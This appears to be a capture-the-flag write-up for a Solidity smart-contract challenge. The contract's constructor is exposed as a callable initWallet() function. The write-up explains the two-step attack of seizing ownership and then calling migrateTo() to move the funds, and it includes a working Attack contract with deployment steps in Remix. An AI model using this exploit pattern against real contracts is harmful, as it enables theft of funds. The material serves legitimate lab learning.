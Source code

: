 ## WriteUp

The challenge1.sol smart contract is vulnerable. The constructor was not set well. Instead of constructor, it is a callable function.

There is two step :

# Step 1 : 

Call the function initWallet() to gain the owner rights.

# Step 2 : 

Call the function migrateTo("youraddress") to steal his money.




# AttackContract

With the blockchain running, it can be solve with this smart contract 


`// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import "./chall1.sol";

contract Attack {
    Challenge1 public victim;
    mapping(address => uint256) balances;

    constructor(address _victimAddress)payable {
        victim = Challenge1(_victimAddress);
    }

    function beginAttack() external payable {
        victim.initWallet();
        victim.migrateTo(0x723c3E5417cae4425Ae95c2E94E80163Ae3B8101);
    }
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

}
`


First deploy this contract in remix with the address of the challenge that the website give you.

Then call beginAttack().

The address in migrateTo() is yours.

